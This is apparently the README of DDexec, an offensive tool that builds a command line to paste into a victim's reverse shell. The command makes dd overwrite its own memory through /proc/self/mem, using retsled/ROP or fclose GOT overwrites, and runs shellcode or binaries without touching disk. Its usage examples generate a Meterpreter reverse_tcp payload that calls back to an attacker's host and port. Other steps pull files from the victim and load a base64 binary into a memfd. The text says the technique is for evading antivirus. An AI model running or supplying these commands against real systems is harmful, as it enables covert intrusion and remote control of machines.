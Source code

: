 # DDexec

## Installation
```bash
sudo apt-get update
sudo apt-get install readelf objdump xclip -y # xclip is optional but recommended 
sudo pip3 install ROPGadget
```

## Execution
First of all you need to to **download some files from the victim system**:
- **Dowload the `dd` binary**. Find it with `command -v dd`. This is required.
- **Download the libc library**. Find it with `ldd $(command -v dd) | grep libc | cut -d' ' -f3`. *This is required with mode "retsled"*.
- Get the **output** of `uname -m`

*Note that in the **STDOUT is only going to be printed the commands to execute in the victim machine**. Banner, information and logs are printed in STDERR.*

Then execute `DDexec.sh` with `xclip` and the **clipboard will be populated** with the command line you need to run in the victim system.
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -H 127.0.0.1 -P 4444 -p linux/x64/meterpreter/reverse_tcp | xclip -selection clipboard
```
**Paste the clipboard in the reverse-shell of the victim and the shellcode/binary will be run.**
*To run a binary you need to use the argument `-b`. Please, read the **Binary Load** section to learn how*

## Help
```
Use this program to execute shellcodes and binaries in memory.
Arguments:
    -h Print this help
    -d Path to the victim dd binary (you should download it from the victim). Find it with 'command -v dd' Required.
    -l Path to the victim libc (you should download it from the victim). Find it with 'ldd `command -v dd` | grep libc | cut -d' ' -f3'. Required with mode "retsled".
    -H LHOST to receive the meterpreter
    -P LPORT to receive the meterpreter.
    -p Metasploit payload (by default linux/x64/meterpreter/reverse_tcp)
    -a Architecture of the victim system. Get it with 'uname -m'. Required.
    -m Mode of memory load. By default fclose_got if dd binary not protected with full relro, if protected, retsled is forced.
    -s Shellcode to execute in hex "4831c0b002...". If msfvenom params are given, msfvenom will create a shellcode. By default a shellcode that echoes "Pwnd!" is used.
    -b Binary to load in memory. It has to be either statically linked or use the same dynamic libs as on a target machine.

e.g.: DDexec.sh -d /path/to/dd [-l /path/to/libc] -P 4444 -H 10.10.10.10 -a x86_64 [-m <fclose_got,retsled> (default fclose_got)] [-s <shellcode_hex>]
```

## Explanation
DDexec is a technique to **load arbitrary shellcodes and binaries in memory from a shell** in a linux system without needing to write anything into disk.

This can help you **avoid AVs and protections** (*like a filesystem mounted as Read Only*).

Basically, this program will prepare a cmd line that will make **`dd` overwrite itself during execution in memory and execute a defined shellcode or a different binary.**

Therefore, what the prepared cmd line is going to do is to use **`dd` to write a shellcode its own memory (via */proc/self/mem*) and then get control the RIP of the dd process to execute the shellcode**.

In order to control the RIP **2 techniques** are implemented in `DDexec.sh`:

### Retsled
**This technique was defined and developed by [Arget](https://github.com/arget13) a good friend of mine and a really awesome guy in binary exploitation.**

This technique uses a retsled to overwrite an important part of the stack of the proccess with the goal of overwritting a RIP address inside the stack with a series of RET. At the end of the retsled a ROP chain is located, so once the RIP is controled by a RET instruction of the retsled the execution will arrive to the ROP chain.

This ROP chain will read the shellcode usnig the `read()` function from `libc` and write it in `0x0000555555554000`.

*This technique generates a **bigger cmd line** than then next technique, maily because of the retsled, but **works with any `dd`**. It's the default teachnique when the dd binary is protected with full relro*

### fclose GOT
Based on the technique described in https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md this technique **writes the shellcode in the GOT** of the last function executed by `dd` before exiting: **`fclose`**. Therefore, when **`fclose` is executed, the shellcode will be executed instead**.

*This technique **won't work if the `dd` binary is protected with full relro** because then the GOT table isn't writable*


*Both techniques are possible because the **ASLR is disabled** when executing `dd` using `setarch`.*

### Binary load
This technique was taken from **https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.mdaslr**.

In orer to **load a binary inside dd and execute it** the following steps are performed:
- Use a shellcode which will create a memfd file in a memory. This is done using the system call *memfd_create()* which creates an anonymous file and returns a file descriptor that refers to it. The file **behaves like a regular file. However, it lives in RAM** and is automatically released when all references to it are dropped.
- Inject the shellcode into a `dd` process (using one of the 2 previous techniques)
- 'suspend' the dd process (also done by the shellcode). Then, the memfd won't be deleted as long as the `dd` process is running.
- Write the binary to be executed inside the memfd file, and execute it.

To perform this steps with `DDexec.sh` you need to **indicate with the `-b` argument the path to the binary** you want to load in memory:
```bash
bash DDexec.sh -l /tmp/victim/libc.so.6 -d /tmp/victim/dd -a x86_64 -b /path/to/bin | xclip -selection clipboard
```
Then, **execute the new cmd line of the clipboard inside the target system**.
This will generate a new `dd` process which will have created and **exposed a memfd file** and suspended its execution (so it doesn't die).
You can see the new memf file exposed running:
```bash
ls -l /proc/$(pidof dd)/fd/
total 0
lrwx------ 1 kali kali 64 Dec 27 12:22 0 -> '/memfd:AAAA (deleted)'
lrwx------ 1 kali kali 64 Dec 27 12:25 2 -> /dev/pts/4
```
Notice how one of the file descriptors is **`memfd` aparently "deleted"**. Note how the fd is `0` (in this example).

Then, to **load the binary in memory** you just need to **write it in this file**. For that purpose `DDexec.sh` will have echoed **a cmd line prepared to decode the base64 of the binary and write it in the file descriptor** (*change the fd index of the cmd line if necessary*).

Just execute that cmd line in the target system. It will look like this:
```bash
# Change the fd number if necesSary
echo 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAYGEAAAAAAABAAAAAAAAAAGg3AgAAAAAAAAAAAEAAOAALAEAAHgAdA...' | base64 -d > /proc/\$(pidof dd)/fd/0
```

Once you have executed this cmd line, you will have **loaded the binary in memory in that memfd**. So you can just execute it as a normal binary:
```bash
# Doing this you will be executing the loaded binary
## Change the fd number if neceSsary
/proc/\$(pidof dd)/fd/0
```